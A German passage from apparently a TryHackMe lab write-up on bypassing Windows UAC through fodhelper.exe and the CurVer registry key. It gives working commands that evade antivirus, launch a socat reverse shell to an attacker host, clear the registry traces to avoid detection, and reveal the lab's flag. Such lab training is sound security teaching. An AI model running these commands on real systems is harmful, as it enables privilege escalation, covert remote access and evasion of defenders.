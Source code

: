 Obwohl wir weiterhin erkannt werden, ist es wichtig zu beachten, dass die Erkennungsmethoden von Antivirensoftware manchmal streng gegen den veröffentlichten Exploit implementiert werden, ohne mögliche Variationen zu berücksichtigen. Wenn wir unseren Exploit von PowerShell auf cmd.exe übersetzen, wird der Virenschutz keine Alarme auslösen (stellen Sie sicher, dass Sie Ihre IP-Adresse entsprechend ersetzen):
```cmd
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Und wir erhalten eine Reverse-Shell mit hoher Integrität:
```shell
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Um die "fodhelper-curver"-Flagge abzurufen, verwenden Sie Ihre neue Shell und führen Sie folgenden Befehl aus:
```cmd
C:\> C:\flags\GetFlag-fodhelper-curver.exe
```

**Hinweis: Beachten Sie, dass die Flagge nur zurückgegeben wird, wenn Sie die UAC erfolgreich über "fodhelper" umgangen haben und nur von der resultierenden Shell mit hoher Integrität über "socat".**

### Spuren beseitigen

Durch die Ausführung dieses Exploits wurden einige Artefakte auf dem Zielsystem erstellt, wie beispielsweise Registrierungsschlüssel. Um eine Erkennung zu vermeiden, müssen wir die Spuren mit den folgenden Befehlen beseitigen:
```cmd
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

**Hinweis: Stellen Sie sicher, dass Sie die angegebenen Befehle ausführen, um zu vermeiden, dass Artefakte die folgenden Aufgaben beeinträchtigen.**

## Fragen:
Welche Flagge wird durch die Ausführung des "fodhelper-curver"-Exploits zurückgegeben?
```
THM{AV_UAC_BYPASS_4_ALL}
```
